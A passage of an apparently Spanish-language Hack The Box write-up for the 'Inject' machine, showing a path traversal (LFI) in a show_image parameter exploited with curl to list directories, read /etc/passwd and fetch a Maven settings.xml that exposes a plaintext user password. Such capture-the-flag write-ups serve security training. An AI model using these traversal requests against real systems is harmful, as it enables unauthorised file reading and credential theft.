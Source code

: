
Si ahora alteramos la petición y cambiamos la extensión del archivo nos muestra un mensaje de subida correcta del archivo con su respectiva ruta.


![](/assets/images/HTB/htb-writeup-Inject/inj6.PNG)


Si ahora desde consola intentamos apuntar a la ruta, listando un directorio atras, obtenemos un `LFI`.

```bash
❯ curl -s -X GET "http://10.10.11.204:8080/show_image?img=.."
java
resources
uploads
```

Ahora podemos listar los usuarios de el archivo `/etc/passwd`.

```bash
❯ curl -s -X GET "http://10.10.11.204:8080/show_image?img=../../../../../../etc/passwd" | grep "sh$"
root:x:0:0:root:/root:/bin/bash
frank:x:1000:1000:frank:/home/frank:/bin/bash
phil:x:1001:1001::/home/phil:/bin/bash
```

Si ahora tratamos de listar el contenido del directorio de los usuarios, observamos un archivo `settings.xml` en el directorio del usuario `frank`. Vamos a exportar el contenido y dentro obtenemos unas credenciales del usuario `phill`.

```bash
❯ curl -s -X GET "http://10.10.11.204:8080/show_image?img=../../../../../../home/frank/.m2"
settings.xml
❯ curl -s -X GET "http://10.10.11.204:8080/show_image?img=../../../../../../home/frank/.m2/settings.xml" -o settings.xml
```

```xml
❯ cat settings.xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
```